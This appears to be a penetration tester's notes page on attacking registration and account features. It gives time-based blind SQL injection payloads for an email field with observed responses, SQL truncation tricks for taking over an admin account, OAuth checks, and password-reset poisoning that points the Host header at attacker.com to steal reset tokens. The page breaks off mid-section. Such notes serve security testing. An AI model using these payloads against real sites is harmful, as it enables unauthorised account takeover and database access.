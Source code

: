 ### SQL Injection
- In email field 
```python
# SQLI in Email Field 
{"email":"asd'a@a.com"} --> Not Valid 
{"email":"asd'or'1'='1@a.com" } --> valid 
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} --> Not Valid 
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} -> Valid --> Delay: 7,854 milis 
{"email":"\\"a'-IF(LENGTH(database())=10,SLEEP(7),0)or'1'='1\\"@a.com"} --> {"code":0,"status":200,"message":"Berhasil"} --> Valid --> Delay 8,696 milis 
{"email":"\\"a"-IF(LENGTH(database())=11,SLEEP(7),0)or'1'='1\\"@a.com"} ---> {"code":0,"status":200,"message":"Berhasil"} ---> Valid --> No delay 
 # Resources 
 https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17
```
- Insert Statement |  Modify password of existing object/user
	To do so you should try to **create a new object named as the "master object"** (probably **admin** in case of users) modifying something:
	- Create user named: **AdMIn** (uppercase & lowercase letters)
	- Create a user named: **admin=**
	- **SQL Truncation Attack** (when ere is some kind of **length limit** in the username or email) --> Create user with name: **admin [a lot of spaces] a**
### OAUTH Takeovers
[[OAUTH to ATO]]
- [ ] Test `edirect_uri` for  [[Open Redirect]] and [[Web-App Security/XSS|XSS]]
- [ ] Test the existence of response_type=token
- [ ] Missing state parameter? -> CSRF
- [ ] Predictable state parameter?
- [ ] Is state parameter being verified?
### SAML Vulnerabilities
[SAML Attacks - HackTricks](https://book.hacktricks.xyz/pentesting-web/saml-attacks)
## Change email Feature
- [ ] Try to change email to Registered email
- [ ] Try to change email to unregistered email but try to handle Reset Password to Get Pre-ATO
## More Checks
- [ ] Check if you can use **disposable emails**
- [ ]  **Long** **password** (>200) leads to **DoS**
- [ ]  **Check rate limits on account creation**
- [ ]  Use username@**burp_collab**.net and analyze the **callback**

## **Password Reset Takeover**
##### Password Reset Token Leak Via Referrer
1.  Request password reset to your email address
2. Click on the password reset link
3. Don’t change password
4. Click any 3rd party websites(eg: Facebook, twitter) 
5. Intercept the request in Burp Suite proxy
6. Check if the referrer header is leaking password reset token.
##### Password Reset Poisoning
[[Host Header Injection]]
1. Intercept the password reset request in Burp Suite
2. Add or edit the following headers in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Forward the request with the modified header `http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Look for a password reset URL based on the _host header_ like : `https://attacker.com/reset-password.php?token=TOKEN`
##### Weak Password Reset Token